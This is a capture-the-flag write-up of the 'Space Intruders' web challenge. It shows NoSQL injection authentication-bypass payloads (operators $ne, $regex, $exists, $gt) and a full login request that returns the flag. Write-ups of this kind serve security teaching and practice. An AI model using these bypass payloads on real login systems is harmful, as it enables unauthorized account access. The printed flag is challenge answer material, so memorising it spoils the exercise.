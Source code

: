 # Space Intruders

## Description
```
Our space ship was hacked a few days ago. We have made sure to improve our security posture by changing all default credentials. We made sure to stop invalid logins by limiting username input to a length of 3 including an equals, legacy software is a pain but it should be secure now.
```

## Writeup

Taking a look at the website. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/4fdddeca-e1ce-41ce-b3eb-7bcc42613449)

I can find nothing of interest on the homepage. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/6964dde3-bfe7-4bd7-b08b-558f0461a31c)

I tried some things but couldn't identify anything of interest, so let's move on to burp suite. <br/>
Taking a look at the normal response header. <br/>
```sh
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 3970
ETag: W/"f82-Qeg0GsBVKYfwIWZ7+XX4egP6CP8"
Date: Sat, 28 Oct 2023 20:21:43 GMT
Connection: close
```

From here I can deduct a few things. <br/>
First of all I can see `X-Powered-By: Express` which indicates that `express.js` is used in the backend. <br/>
In a lot of cases `express.js` runs together with `node.js` which is not that interesting. <br/>
The interesting thing to us is that this backend architecture often uses `MongoDB` or any kind of `NoSQL` databases. <br/>
Looking up some nosql type injections I chose to take a look at hacktrix. (https://book.hacktricks.xyz/pentesting-web/nosql-injection)<br/>

After trying some of those out I was able to receive error warnings like the following. <br/>
![grafik](https://github.com/Aryt3/writeups/assets/110562298/ec20c078-83f3-40be-834f-51cccb9a0643)

I concluded that I am on the right path and continued looking for working injections until I found 1 section. <br/>

### Basic authentication bypass
**Using not equal ($ne) or greater ($gt)**
```sh
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```

Using the third URL injection with the following request body I got a hit. <br/>
```sh
POST /login HTTP/1.1
Host: spooky-space-intruder-web.chals.io
Content-Length: 45
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://spooky-space-intruder-web.chals.io
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://spooky-space-intruder-web.chals.io/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

username[$exists]=true&password[$exists]=true
```

In the response body I than received the flag. <br/>
```sh
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 38
ETag: W/"26-f/zhwqxyLoLG56Qooha0tkaX91I"
Date: Sat, 28 Oct 2023 20:30:15 GMT
Connection: close

NICC{d1D_y0U_Kn0W_m0NgOdB1$_w3b$ca13?}
```



